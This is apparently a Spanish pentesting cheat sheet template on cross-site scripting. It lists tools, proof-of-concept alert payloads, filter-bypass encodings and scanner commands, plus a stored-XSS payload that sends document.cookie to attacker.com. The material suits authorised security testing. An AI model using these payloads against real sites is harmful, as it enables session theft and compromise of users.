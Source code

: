 # CheatSheet: Cross-Site Scripting (XSS)

## Fecha: {FECHA}
## Host: {HOST}
## IP: {IP}

---

## Objetivo
Identificar y explotar vulnerabilidades de XSS para inyectar scripts maliciosos en aplicaciones web y comprometer la seguridad del usuario o del sistema.

---
## Herramientas
1. Burp Suite
2. XSS Hunter
3. OWASP ZAP

---
## Procedimiento y comandos

1. **Identificar campos vulnerables**:
   - Probar inyección básica en campos de entrada:
     ```
     <script>alert('XSS')</script>
     ```

2. **Probar vectores comunes**:
   - HTML básico:
     ```
     <img src=x onerror=alert('XSS')>
     ```
   - JavaScript embebido:
     ```
     "><script>alert('XSS')</script>
     ```
   - Eventos en atributos:
     ```
     <input onfocus=alert('XSS') autofocus>
     ```

3. **Codificación y bypass de filtros**:
   - Codificación de caracteres:
     ```
     <script>alert&#40;'XSS'&#41;</script>
     ```
   - Uso de SVG o vectores alternativos:
     ```
     <svg onload=alert('XSS')>
     ```

4. **Automatización**: Usar Burp Suite con secuencias de ataque o herramientas como XSS Hunter:
   ```bash
   python xss-finder.py -u http://{HOST}/vulnerable
   ```

5. **Explorar XSS almacenado**:
   - Introducir un payload en campos que almacenen datos como comentarios o perfiles:
     ```
     <script>fetch('http://attacker.com?cookie=' + document.cookie)</script>
     ```

---
## Troubleshooting
1. **Filtros que bloquean caracteres especiales:**
   - Probar codificaciones alternativas como UTF-7:
     ```
     +ADw-script+AD4-alert('XSS')+ADw-/script+AD4-
     ```
   - Escapar filtros con secuencias de caracteres indirectos:
     ```
     <svg><a href="javascript:alert('XSS')">Click</a></svg>
     ```

2. **El navegador bloquea el script:**
   - Analizar si el navegador aplica políticas de seguridad (CSP) y modificar el payload para cumplir con dichas restricciones.

3. **No se ejecuta el código:**
   - Comprobar si el campo de entrada es reflejado en el DOM o directamente en el contenido HTML.
   - Usar herramientas de análisis DOM como el DevTools de Chrome para inspeccionar la página.

---
## Herramientas Alternativas
- [ ] **XSStrike**: Pruebas automatizadas de XSS.
  ```bash
  python3 xsstrike.py -u http://{HOST}/vulnerable
  ```
- [ ] **Dalfox**: Detección rápida y automatizada de XSS.
  ```bash
  dalfox url http://{HOST}/vulnerable
  ```
- [ ] **Nuclei**: Escaneo de plantillas personalizables con soporte para XSS.
  ```bash
  nuclei -u http://{HOST}/vulnerable -t xss-templates
  ```


